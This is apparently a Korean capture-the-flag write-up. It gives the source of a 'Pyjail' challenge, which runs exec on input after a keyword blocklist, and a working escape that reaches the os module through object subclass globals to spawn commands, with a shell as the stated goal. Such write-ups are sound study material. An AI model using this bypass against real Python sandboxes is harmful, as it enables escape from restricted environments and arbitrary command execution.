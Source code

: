 따라서 275,110,486,823,655 - 16,716,933,354,258 = 258,393,553,469,397
### Flag : 258393553469397

<hr>
# Pyjail★★★★★★

	Jailbreaker of Python

	id: jail passwd: jail
	use /tmp if you need.

```python
#!/usr/bin/env python3

''' Your job is escape this program and get /bin/sh '''

           
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")

    print(open(__file__).read())
    print("========================================================================")

    print("good luck.")
    data = input('> ')

    for keyword in ['import', 'os', 'system', 'open', 'read', 'write', 'eval', 'exec']:

        if keyword in data:
            print("No hack")
            return;
    else:
        exec(data)

if __name__ == "__main__":
    main()
```


먼저 사용할 수 없는 키워드들이 많다. 

그래서 우회하여 `os.spawnlp`를 사용하기로 했다.

`StreamReaderWriter` 클래스를 이용하여 `sys`모듈을 구해오고 거기서 `os` 모듈을 통해 spawnlp를 실행시킨다.

```python
o = {x.__name__:x for x in object.__subclasses__()}['StreamReaderWriter'].__init__.__globals__['sys'].modules['o'+'s']
o.spawnlp(o.P_WAIT, 'ls', 'ls', '-alR', './')
```
